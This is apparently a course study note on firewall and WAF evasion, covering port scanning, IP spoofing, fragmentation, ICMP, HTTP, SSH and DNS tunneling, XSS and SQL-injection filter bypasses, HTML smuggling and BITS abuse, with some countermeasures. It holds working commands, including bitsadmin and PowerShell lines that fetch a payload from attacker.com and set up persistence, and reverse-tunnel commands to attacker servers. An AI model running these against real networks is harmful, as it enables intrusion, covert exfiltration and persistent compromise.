







# 06a — Firewall Evasion Techniques

[⬅ Back to evasion index](../README.md) · [Back to main index](../../README.md)

## Table of Contents
- [Overview](#overview)
- [1. Port Scanning and Firewalking](#1-port-scanning-and-firewalking)
- [2. Banner Grabbing](#2-banner-grabbing)
- [3. IP Address Spoofing](#3-ip-address-spoofing)
- [4. Source Routing](#4-source-routing)
- [5. Tiny Fragment Attack](#5-tiny-fragment-attack)
- [6. Bypassing via IP Address Instead of URL](#6-bypassing-via-ip-address-instead-of-url)
- [7. Anonymizer and Proxy Server Bypass](#7-anonymizer-and-proxy-server-bypass)
- [8. ICMP Tunneling](#8-icmp-tunneling)
- [9. ACK Tunneling](#9-ack-tunneling)
- [10. HTTP Tunneling](#10-http-tunneling)
- [11. SSH Tunneling](#11-ssh-tunneling)
- [12. DNS Tunneling](#12-dns-tunneling)
- [13. Bypassing through External Systems](#13-bypassing-through-external-systems)
- [14. Bypassing through MITM Attacks](#14-bypassing-through-mitm-attacks)
- [15. Bypassing through Malicious Content](#15-bypassing-through-malicious-content)
- [16. XSS and WAF Bypass Techniques](#16-xss-and-waf-bypass-techniques)
- [17. HTML Smuggling](#17-html-smuggling)
- [18. Windows BITS Evasion](#18-windows-bits-evasion)

---

## Overview

Firewall evasion is the process of bypassing firewall rules and restrictions to gain unauthorized access to a target network. Attackers use these techniques to make malicious traffic look legitimate or to tunnel it through permitted channels.



---

## 1. Port Scanning and Firewalking

**Port scanning** identifies which ports are open, closed, or filtered on the target — revealing the firewall's ruleset indirectly.

**Firewalking** is a technique using TTL-expired packets to map firewall ACL rules — essentially asking "does this firewall allow traffic to pass on port X?" without directly connecting to the target host.

```bash
# Basic SYN scan (half-open, less noisy than full connect scan)
nmap -sS -p 1-1024 <target_ip>

# Firewalking with nmap (use --traceroute + TTL manipulation)
nmap --traceroute -sS -p 80,443,22,23,3389 <target_ip>

# hping3 firewalking — manually probe specific ports with controlled TTL
sudo hping3 -S --ttl 10 -p 80 <target_ip>
sudo hping3 -S --ttl 10 -p 443 <target_ip>

# Check which ports respond (open) vs are silently dropped (filtered by firewall)
nmap -sS -p- --open <target_ip>
```

**What the attacker learns:** which ports/services are reachable through the firewall, and therefore which evasion tunnels are viable (e.g., if port 80 is open, HTTP tunneling becomes an option).

---

## 2. Banner Grabbing

Banner grabbing extracts the service banner — version strings, OS information, server software — from open ports. This tells the attacker exactly what software the firewall/IDS is running, allowing them to look up known evasion techniques for that specific version.

```bash
# Netcat banner grab — connect to a port and read what the service says
nc -v <target_ip> 80
nc -v <target_ip> 22
nc -v <target_ip> 25

# Nmap service version detection (sends probes to identify the service)
nmap -sV -p 80,22,443 <target_ip>

# curl — grab HTTP headers (reveals web server type and version)
curl -I http://<target_ip>

# Telnet banner grab (old-school but still works for plain-text protocols)
telnet <target_ip> 25
```

**Defensive note:** suppress or falsify banners in production. For Apache: `ServerTokens Prod` and `ServerSignature Off` in `httpd.conf`. For SSH: set a generic `Banner` in `sshd_config`.

---

## 3. IP Address Spoofing

IP spoofing involves forging the source IP address in packets to impersonate a trusted host, trick the firewall into allowing traffic from what appears to be an internal or whitelisted address, or hide the attacker's true origin.



```bash
# hping3 — send spoofed SYN packets using a trusted source IP
sudo hping3 -S -p 80 --spoof 192.168.1.10 <target_ip>

# nmap — spoof source address (requires raw socket / root)
sudo nmap -S 192.168.1.10 -e eth0 -Pn <target_ip>
```

**Key limitation:** responses go back to the spoofed IP, so the attacker cannot receive them directly. Spoofing is therefore used for blind attacks (DoS, firewall rule probing) rather than interactive sessions.

---

## 4. Source Routing

Source routing embeds the entire route a packet should follow directly in the IP header — overriding the normal routing decisions made by intermediate routers. Attackers use this to route packets through a trusted host, making them appear to originate from there.

```bash
# hping3 with loose source routing
sudo hping3 --lsrr <trusted_hop_ip> -p 80 <target_ip>
```

**Defensive note:** most modern routers drop source-routed packets by default. On Linux: `sysctl -w net.ipv4.conf.all.accept_source_route=0`. On Cisco IOS: `no ip source-route`.

---

## 5. Tiny Fragment Attack

Firewalls that use shallow packet inspection may only look at the first fragment of a packet (which contains the TCP header with port numbers). By forcing the TCP header to be split across multiple tiny fragments, the attacker ensures no single fragment contains a complete, recognizable signature.



```bash
# nmap with packet fragmentation (-f splits into 8-byte fragments)
sudo nmap -f -sS -p 80 <target_ip>

# Double fragmentation (-f -f = 16-byte fragments, smaller pieces)
sudo nmap -f -f -sS -p 80 <target_ip>

# hping3 — manual fragment size control
sudo hping3 -S -p 80 -d 8 <target_ip>
```

---

## 6. Bypassing via IP Address Instead of URL

Some firewalls filter by URL/hostname (domain name) but not by raw IP address. If a URL is blocked, simply using the numeric IP of the same server may bypass the filter entirely.

```bash
# Resolve the IP of the blocked domain
nslookup blocked-site.com
dig blocked-site.com +short

# Then access it directly by IP
curl http://93.184.216.34/     # instead of http://blocked-site.com/

# Or encode the IP in alternate formats — some firewalls miss these:
# Dotted decimal:    http://93.184.216.34/
# Octal:             http://0135.0270.0330.0042/
# Hexadecimal:       http://0x5db8d822/
# Decimal (long):    http://1572395042/
python3 -c "import struct,socket; print(struct.unpack('!I', socket.inet_aton('93.184.216.34'))[0])"
```

---

## 7. Anonymizer and Proxy Server Bypass

**Anonymizer sites** (web-based proxies) and **SOCKS/HTTP proxy servers** act as intermediaries — the attacker's traffic appears to come from the proxy rather than the attacker.

```bash
# Use curl through an HTTP proxy
curl -x http://proxy_ip:8080 http://target_site.com/

# Use curl through a SOCKS5 proxy (e.g., Tor's local SOCKS port at 9050)
curl --socks5 127.0.0.1:9050 http://target_site.com/

# proxychains — route any tool's traffic through a chain of proxies
# Edit /etc/proxychains4.conf, add proxy servers at the bottom:
# socks5 127.0.0.1 9050
proxychains nmap -sT -p 80,443 <target_ip>

# Tor (routes traffic through 3 onion-routing hops)
sudo systemctl start tor
curl --socks5 127.0.0.1:9050 https://check.torproject.org/api/ip
```

---

## 8. ICMP Tunneling

ICMP is the protocol used by `ping`. Many firewalls allow ICMP traffic because it is considered a control/diagnostic protocol. Attackers tunnel arbitrary data inside ICMP Echo (ping) packets — the firewall sees only "ping traffic."



**Tools:** `icmptunnel`, `ptunnel-ng`

```bash
# ptunnel-ng server side (on the machine inside the network)
sudo ptunnel-ng -x password123

# ptunnel-ng client side (on the attacker machine)
sudo ptunnel-ng -p <server_ip> -lp 8000 -da <dest_ip> -dp 22 -x password123
# Now SSH through the ICMP tunnel:
ssh -p 8000 user@localhost
```

---

## 9. ACK Tunneling

Some firewalls allow TCP packets with the ACK flag set because they appear to be part of an already-established connection. Attackers embed data in ACK packets to tunnel traffic past stateless packet-filter firewalls that only check flags, not connection state.

```bash
# hping3 — send ACK packets with data payload
sudo hping3 -A -p 80 --data 100 <target_ip>
# -A = set ACK flag, --data = payload size in bytes
```

**Why it works against stateless firewalls:** a stateless packet filter sees the ACK flag and assumes this is part of a legitimate established session → it lets it through. A **stateful** firewall (which tracks connection state) would catch this because there is no matching SYN/SYN-ACK in its state table.

---

## 10. HTTP Tunneling

HTTP tunneling encapsulates arbitrary protocol traffic inside HTTP requests/responses on port 80 (or HTTPS on 443). Since almost every firewall allows web traffic, this is one of the most reliable evasion methods.



**How it works:** The firewall sees only normal HTTP traffic. Many firewalls (including IDS) do not inspect the HTTP *payload* to confirm it is legitimate web content — so anything can ride inside it.

### Tools: HTTPort and HTTHost

**Step-by-step walkthrough:**

```
Step 1: Disable IIS Admin Service and World Wide Web Publishing Service
        on the attacker machine (prevents port conflicts).

Step 2: Run HTTHost on the machine OUTSIDE the firewall:
        - Keep default settings
        - Enter a personal password
        - Check "Revalidate DNS names" and "Log connections"
        - Click Apply
        → HTTHost listens on port 90

Step 3: Confirm in HTTHost's Application Log tab:
        "Listener: listening at <IP address>:90"
        (Fig 12.33 in the courseware shows this confirmation screen)

Step 4: On the machine INSIDE the firewall (the attacker's position),
        run HTTPort:
        → Proxy tab: enter HTTHost machine's public IP, port 90, and password
        → Port Mapping tab: Add a new mapping:
              Local port: 21 (or any local port)
              Remote host: <FTP server IP inside network>
              Remote port: 21
        → Click Start

Step 5: Now FTP through the tunnel:
        ftp 127.0.0.1
        (HTTPort intercepts this, wraps it in HTTP, sends to HTTHost,
         HTTHost unwraps and forwards to the real FTP server)
```

Even if the firewall has an outbound rule blocking TCP port 21 (FTP), this still works because the actual traffic leaving the firewall is HTTP on port 80.

**Other HTTP tunneling tools:**
- **Chisel** (`https://github.com/jpillora/chisel`) — fast TCP/UDP tunnel over HTTP/WebSocket, very commonly used in red-team engagements
- **Tunna** — wraps any TCP communication in HTTP

```bash
# Chisel server (runs on the attacker's external server)
./chisel server --port 8080 --reverse

# Chisel client (runs inside the target network, initiates outbound HTTP)
./chisel client http://attacker_server:8080 R:socks
# This creates a reverse SOCKS5 proxy the attacker can route traffic through
```

---

## 11. SSH Tunneling

SSH tunneling sends arbitrary network traffic through an encrypted SSH connection. Even if the original protocol is blocked by the firewall, if SSH (port 22) or HTTPS (port 443) is allowed, the traffic can ride inside it.



### Using OpenSSH

```bash
# LOCAL port forwarding
# "Forward my local port 5000 to certifiedhacker.com:25 (SMTP) through SSH"
ssh -f user@certifiedhacker.com -L 5000:certifiedhacker.com:25 -N
#    -f = go to background
#    -L local_port:remote_host:remote_port
#    -N = don't execute any remote command (tunnel only)
# Now: connect to localhost:5000 → your traffic arrives at port 25 on the remote server

# REMOTE port forwarding
# "Expose my local service (port 8080) on the remote server's port 9090"
ssh -f user@ssh_server.com -R 9090:localhost:8080 -N
# Now: anyone connecting to ssh_server.com:9090 reaches YOUR local port 8080

# DYNAMIC port forwarding (creates a SOCKS5 proxy)
ssh -f user@ssh_server.com -D 1080 -N
# Now: configure browser/tool to use SOCKS5 proxy at localhost:1080
# → all traffic routes through the SSH server
```

### Using Bitvise SSH Client (GUI tool)

Bitvise supports all three forwarding types through a graphical interface:

**Local Port Forwarding:**
```
C2S tab → Add:
  Type: Local
  Listen Interface: 127.0.0.1
  Listen Port: 8080
  Destination Host: internal-server.company.local
  Destination Port: 80
→ Login → browse http://localhost:8080 → reaches internal server
```

**Remote Port Forwarding:**
```
C2S tab → Add:
  Type: Remote
  Listen Interface: 0.0.0.0
  Listen Port: 9090
  Destination Host: localhost
  Destination Port: 3000  (local dev service)
→ Login → remote machine connects to ssh-server:9090 → reaches your local port 3000
```

**Dynamic Port Forwarding (SOCKS proxy):**
```
C2S tab → Add:
  Type: Dynamic
  Listen Interface: 127.0.0.1
  Listen Port: 1080
→ Login → configure browser SOCKS5: localhost:1080 → all traffic routed through SSH
```

---

## 12. DNS Tunneling

DNS tunneling encodes data inside DNS queries and responses. Since almost no firewall blocks DNS (port 53 UDP), and DNS traffic looks completely normal to most network monitoring tools, this is an extremely covert channel.



**Why it works:**
- DNS uses UDP and has a 255-byte label limit — small enough that the data exfiltration is slow, but enough for a covert C2 channel.
- DNSSEC cannot detect it because the data is embedded within valid DNS packet structure.
- Firewalls almost universally allow DNS traffic outbound.

### Tool: iodine

```bash
# SERVER side — runs on attacker's VPS with a public IP and an NS record
# pointing tunnel.attacker.com → this VPS
sudo iodined -f -c -P password123 10.0.0.1 tunnel.attacker.com
# 10.0.0.1 = the tunnel interface IP on the server side

# CLIENT side — runs inside the target network
sudo iodine -f -P password123 ns.attacker.com tunnel.attacker.com
# After successful connection, a tun0 interface appears with IP 10.0.0.2
# Now SSH through the DNS tunnel:
ssh user@10.0.0.1
```

### Tool: dnscat2

```bash
# SERVER (attacker machine)
ruby dnscat2.rb --dns "domain=attacker.com,host=0.0.0.0" --no-cache

# CLIENT (inside target network — PowerShell)
# dnscat2 client for Windows (PowerShell)
Import-Module .\dnscat2.ps1
Start-Dnscat2 -Domain attacker.com -DNSServer 8.8.8.8
```

---

## 13. Bypassing through External Systems

An attacker can bypass firewall/IDS by leveraging an external system that already has legitimate access to the corporate network — such as an employee's home machine, a remote administration workstation, or a satellite office endpoint.

**Attack flow:**
```
1. Attacker identifies a legitimate user who accesses the corporate network remotely
2. Attacker sniffs that user's traffic → steals the session ID and cookies
3. Using the stolen session, attacker gets the Windows process ID of the user's browser
   (e.g., the Mozilla Firefox process running on the user's machine)
4. Attacker issues an OpenURL() command to that browser process
5. User's browser is silently redirected to the attacker's malicious web server
6. Malicious code on that page is downloaded and executed on the user's machine
   → the attacker now has code execution inside the network, behind the firewall
```

**Why this bypasses firewalls:** the malicious traffic originates from a *trusted, already-authenticated* machine inside or with access to the network — not from an untrusted external IP.

---

## 14. Bypassing through MITM Attacks

Most security administrators focus on *external* attacks against the firewall — but the firewall itself can be bypassed via MITM attacks on the DNS infrastructure it depends on.

**Attack flow via DNS poisoning:**
```
1. Attacker poisons the corporate DNS server cache with false entries
2. User A queries the corporate DNS for www.certifiedhacker.com
3. Corporate DNS returns the attacker's IP (e.g., 127.22.16.64) instead of the real one
4. User A connects to the attacker's malicious server (thinking it's the real site)
5. Attacker forwards the user's requests to the real server — acting as a transparent proxy
   → the firewall/IDS sees traffic between two legitimate IPs and allows it
6. Malicious code from the attacker's server executes on the user's machine
```

**Key insight:** the firewall sees legitimate HTTP traffic between the user and what appears to be a valid server — it has no way to know the DNS was poisoned.

---

## 15. Bypassing through Malicious Content

Attackers embed malicious code inside innocent-looking files and trick users into opening them. Since the user initiates the connection from inside the trusted network, the firewall typically allows it outbound.

**Common malicious file formats used as carriers:**

| Category | File types |
|---|---|
| Executables | EXE, COM, BAT, PS1 |
| Documents | DOC, DOCX, DOT, XLS, XLSX, PPT, PPTX, PDF |
| Database | MDB, MDE, ADP |
| Email | MSG, OTM |
| Design/CAD | CDR, DWG, VSD |
| Project | MPP, MPT |

**Delivery mechanisms:**
- Email with malicious attachment (Office macro exploit, PDF exploit)
- Trojan horse files disguised as software installers on WWW/FTP servers
- Malicious code embedded in images using steganography
- HTML smuggling (see [Section 17](#17-html-smuggling))

---

## 16. XSS and WAF Bypass Techniques

Web Application Firewalls (WAF) sit in front of web applications and filter malicious HTTP requests. Attackers use several encoding and obfuscation techniques to make their payloads unrecognizable to the WAF's signature engine.

### Using ASCII Encoding

```javascript
// Original XSS payload (blocked by WAF):
<script>alert("XSS")</script>

// Equivalent using ASCII character codes (String.fromCharCode):
<script>String.fromCharCode(97,108,101,114,116,40,34,88,83,83,34,41)</script>
// JavaScript executes this and reconstructs the original string internally
// WAF signature engines matching the literal string "alert" miss this entirely
```

### Using Hex Encoding

```
// Original:
<script>alert("XSS")</script>

// URL-encoded hex equivalent:
%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
```

### Using Obfuscation (mixed case)

```javascript
// Original:
<script>alert("XSS")</script>

// Obfuscated (mixed upper/lower case — many WAFs do case-sensitive matching):
<sCrIpT>aLeRt("XSS")</sCrIpT>
```

### Other WAF Bypass Techniques

**HTTP Header Spoofing:** WAFs often trust requests appearing to come from internal IPs. Add these headers to trick the WAF:
```http
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```
Tools like **Burp Suite** can inject these headers into every request.

**Blacklist Detection Evasion (SQL injection example):**
```sql
-- WAF blacklists: and, or, union
-- Blocked:
union select username, pwd from employees

-- Bypass using equivalent logic that avoids the blacklisted keywords:
1 || (select username, pwd from employees where userID = 1001) = 'admin'

-- Further bypass when limit/where are also blacklisted:
1 || (select username from employees group by userID having userID = 1001) = 'admin'
```

**Fuzzing/Brute-force WAF bypass:**
```bash
# Use wfuzz to fuzz WAF bypass payloads
wfuzz -c -z file,/usr/share/seclists/Fuzzing/XSS/XSS-Jhaddix.txt \
  --hc 403 "http://target.com/search?q=FUZZ"

# Wordlists: SecLists (https://github.com/danielmiessler/SecLists)
# Assetnote Wordlists (https://wordlists.assetnote.io)
```

**SSL/TLS Cipher Abuse:**
```bash
# Scan web server for supported SSL/TLS ciphers
sslscan2 target.com

# If the server supports a cipher the WAF doesn't, connect using that cipher
# The WAF can't decrypt the traffic → cannot inspect or block it
curl --ciphers ECDHE-RSA-AES128-SHA256 https://target.com/malicious-path
```

---

## 17. HTML Smuggling

HTML smuggling injects malicious code into HTML or JavaScript in a way that bypasses SIEM, firewalls, web proxies, and email gateways — because the malicious payload is assembled *inside the victim's browser* rather than transmitted as a recognizable malicious file.

**How it works:**

```javascript
// Method 1: HTML5 download attribute — malicious file served directly
<a href="malicious.doc" download="Myfile.doc">Click to download invoice</a>

// Method 2: JavaScript Blob — malicious file built IN the browser from raw bytes
// The file never crosses the network as a file — only as JavaScript
var fakeBlob = new Blob([myfakeFile], {type: 'octet/stream'});
var myfileUrl = window.URL.createObjectURL(fakeBlob);
var myAnchorElement = document.createElement('a');
myAnchorElement.download = 'Myfile.doc';
myAnchorElement.href = myfileUrl;
myAnchorElement.click();  // triggers download silently
```

**Why firewalls miss this:** the firewall sees only normal JavaScript and HTML — there is no malicious file signature to match because the file is assembled *after* the traffic passes through the firewall, inside the victim's browser.

**Signs of HTML smuggling in traffic/files:**
- ZIP file containing JavaScript
- Encrypted attachments arriving via email
- Suspicious `<script>` blocks in HTML files
- Base64 decoding of HTML file content

**Countermeasures:**
```
- Block auto-execution of .js and .jse files (via Group Policy)
- Enable Office 365 email security filtering against auto-download malware
- Enable Microsoft Defender SmartScreen in browsers
- Implement Content Security Policy (CSP) headers on web servers
- Define a strict whitelist of allowed HTML tags, attributes, and protocols
- Encode all dynamic content before rendering it in the browser
```

---

## 18. Windows BITS Evasion

**Background Intelligent Transfer Service (BITS)** is a legitimate Windows service used to deliver Windows Update files and browser updates (Firefox, Chrome). Because BITS traffic looks like normal software update traffic, organizations rarely monitor or block it.

**How attackers abuse BITS:**
```cmd
REM Create a BITS job to download a malicious payload from an attacker's server
REM (bitsadmin is the command-line interface to BITS)
bitsadmin /create malware_job
bitsadmin /addfile malware_job http://attacker.com/payload.exe C:\Windows\Temp\payload.exe
bitsadmin /resume malware_job

REM Create a persistence job that re-executes the payload on reboot
bitsadmin /create persistence
bitsadmin /addfile persistence http://attacker.com/payload.exe C:\Temp\persist.exe
bitsadmin /SetNotifyCmdLine persistence C:\Temp\persist.exe NULL
bitsadmin /resume persistence
```

**Why this works:** BITS jobs run as SYSTEM, are considered trusted OS activity, appear in no standard process list, and generate traffic that blends with normal Windows Update traffic.

**PowerShell equivalent (more scriptable):**
```powershell
# Modern PowerShell BITS transfer
Start-BitsTransfer -Source "http://attacker.com/payload.exe" `
                   -Destination "C:\Windows\Temp\payload.exe" `
                   -Asynchronous
```

**Countermeasures:**
```
- Use BitsParser to audit all BITS jobs
- Monitor Microsoft-Windows-Bits-Client/Operational event log
- Use GPO to limit BITS settings (max job age, execution restrictions)
- Configure SIEM to alert on unusual BITS transfer destinations
- Conduct regular audits of active BITS jobs: Get-BitsTransfer -AllUsers
- Limit user accounts' ability to create BITS jobs where not required
```

---

[⬅ Back to evasion index](../README.md) · [Back to main index](../../README.md) · [➡ 06b: IDS Evasion](../06b-ids-evasion/README.md)
